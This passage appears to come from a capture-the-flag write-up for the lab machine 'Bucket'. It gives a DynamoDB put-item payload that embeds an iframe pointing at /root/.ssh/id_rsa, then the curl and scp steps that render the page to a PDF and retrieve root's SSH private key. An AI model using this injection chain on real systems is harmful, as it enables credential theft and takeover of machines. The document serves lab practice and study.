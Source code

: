 - Add a record to the Table

What value should I add? Read the root.txt (/root/root.txt) directly [ actually, tested, and submitted], but this is not the rules of the game.  After googling, we can get the private key for the ssh login to gain the root access rights. Steal root ssh private key (/root/.ssh/id_rsa) is our objective. 

```

aws dynamodb put-item \
    --table-name alerts \
    --item '{
        "title": {"S": "Ransomware"},
        "data": {"S": "<html><head></head><body><iframe src='/root/.ssh/id_rsa'></iframe></body></html>"}
      }' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb
```

- Start the game

	Steps: 
	1. Execute the command at my Kali machine to create the table 
	2. Execute the command at my Kali machine to add a record to the table
	3. Visit the page : ```curl --data "action=get_alerts" http://localhost:8000/```
	4. SCP the result.pdf file to my Kali machine: ```scp roy@$bucket.htb://var/www/bucket-app/files/result.pdf ./```

	![img](./img/19.png)

	The result.pdf: this is the private key of root SSH.
